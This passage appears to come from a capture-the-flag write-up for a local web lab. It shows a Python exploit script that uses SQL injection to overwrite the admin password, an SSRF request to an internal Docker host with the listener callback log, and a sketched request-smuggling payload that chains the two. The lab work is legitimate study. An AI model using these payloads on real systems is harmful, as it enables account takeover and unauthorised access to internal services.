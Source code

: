 ```python
import requests

url = "http://127.0.0.1:1337/"
username = "admin"
password = "admin"
payload = "pwn') ON CONFLICT (username) DO UPDATE SET password = 'admin';"
encoded_payload= payload.replace(" ", "+")	


def SQLi():
	headers =headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	sqli = requests.post(url+"register", headers=headers, data=f"username={username}&password={encoded_payload}")
	return(sqli.text)


def get_flag():
	headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	flag = requests.post(url+"login", headers=headers, data=f"username={username}&password={password}")
	return(flag.text)

def ssrf():
	headers = {'Content-Type': 'application/json'}
	ssrf = requests.post(url+"api/weather", headers=headers, json={
		"endpoint": "172.17.0.1",
		"city":"Pwntown",
		"country":"PWN"})
	return(ssrf.text)


```

Getting the callback:

```bash
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [14/Feb/2023 15:41:40] code 404, message File not found
172.17.0.2 - - [14/Feb/2023 15:41:40] "GET /data/2.5/weather?q=Pwntown,PWN&units=metric&appid=10a62430af617a949055a46fa6dec32f HTTP/1.1" 404 -
```

Great, now I just need to solve one more goal and the lab will be solved!

# Goal Use SSRF to make a POST request

Now this was in my opinion the hardest part of the challenge. First I need to just scetch out what I want the POST request to look like, so I create a file called POST.txt.

```
127.0.0.1/ HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 

username=admin&password=PWN') ON CONFLICT(username) DO UPDATE SET password = 'admin';

GET 
```
